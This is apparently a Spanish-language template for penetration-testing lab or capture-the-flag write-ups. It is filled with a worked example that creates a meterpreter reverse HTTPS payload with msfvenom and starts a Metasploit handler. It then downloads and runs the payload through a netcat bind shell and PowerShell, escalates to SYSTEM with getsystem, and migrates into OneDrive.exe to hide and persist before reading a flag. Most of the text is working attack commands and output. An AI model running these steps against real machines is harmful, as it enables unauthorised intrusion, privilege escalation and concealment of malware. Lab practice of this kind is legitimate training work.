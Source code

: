 # {CATEGORÍA}: {DESCRIPCIÓN}

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}
## Objetivo
{OBJETIVO}
## Herramientas
1. tool - 1 
2. tool - 2
## Procedimiento y comandos
#### Paso 1: ...
1. Creamos el payload meterpreter
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.176 LPORT=443 -f exe -o met.exe
```
2. lanzamos el módulo multi/handler previamente activado en Metasploit
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run

```
#### Paso 2: Obtenemos sesión activa de meterpreter
1. iniciamos un servidor web Python3 para servir met.exe
2. iniciamos el bind shell, solicitamos el erachivo, lo ejecutamos y obtenemosla sesión de meterpreter
```
nc 192.168.50.223 4444

powershell

iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

.\met.exe

```
#### Paso 3: Ejecutamos comandos post explotación
- Obtenemos información básicaprimero
```
getuid
```
- procesos
```
ps
```
1. Escalada de privilegios:
```
getsystem
```
2. Migramos el proceso para ocultarlo y persistirlo al de OneDrive:

```
ps
-----
PID   PPID  Name
7136  5328  OneDrive.exe

migrate 7136
```

#### Paso 4: Obtenemos el flag:
- Resumen.
```
meterpreter > getsystem
[-] Send timed out. Timeout currently 15 seconds, you can configure this with sessions --interact <id> --timeout <value>
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > migrate 7136
[*] Migrating from 6792 to 7136...
[*] Migration completed successfully.
meterpreter > getenv Flag

Environment Variables
=====================

Variable  Value
--------  -----
Flag      thisistheanswertothequestion

meterpreter > 
```

#### Extras
1. Ejecutamos procesos en segundo plano:
```
execute -H -f notepad
```
2. Migramos a ese proceso
```
migrate <notepad PID>
```


